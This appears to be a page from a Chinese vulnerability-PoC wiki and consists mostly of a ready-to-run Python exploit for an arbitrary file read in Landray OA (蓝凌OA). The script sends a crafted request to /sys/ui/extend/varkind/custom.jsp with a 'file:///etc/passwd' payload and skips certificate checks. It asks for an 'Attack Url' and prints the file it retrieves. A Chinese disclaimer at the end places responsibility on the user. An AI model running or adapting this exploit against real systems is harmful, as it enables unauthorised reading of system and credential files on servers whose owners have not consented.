 ```
if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    POC_1(target_url)
```

```
# 蓝凌OA 任意文件读取

#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import base64
import requests
import random
import re
import json
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 蓝凌OA 任意文件读取                                          \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/sys/ui/extend/varkind/custom.jsp"
    headers = {
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
                "Content-Type": "application/x-www-form-urlencoded"
    }
    data = 'var={"body":{"file":"file:///etc/passwd"}}'
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=10)
        print("\033[36m[o] 正在请求 {}/sys/ui/extend/varkind/custom.jsp \033[0m".format(target_url))
        if "root:" in response.text and response.status_code == 200:
            print("\033[36m[o] 成功读取 /etc/passwd \n[o] 响应为:{} \033[0m".format(response.text))

    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)

#
if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    POC_1(target_url)
```

**由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。**

**PeiQi 文库 拥有对此文章的修改和解释权如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经作者允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的。**